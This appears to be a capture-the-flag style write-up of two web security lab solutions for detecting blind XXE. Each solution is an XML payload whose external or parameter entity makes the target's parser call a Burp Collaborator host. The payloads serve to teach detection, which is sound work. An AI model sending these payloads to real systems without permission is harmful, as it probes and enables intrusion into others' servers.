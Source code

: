 # Detecting blind XXE using out-of-band (OAST) techniques

## Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://4pu94og180nmlpwba4ryynwgk7qzeo.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://dxey5zylgsj6urlre84bcz7et5zvnk.burpcollaborator.net"> %xxe; ]>
```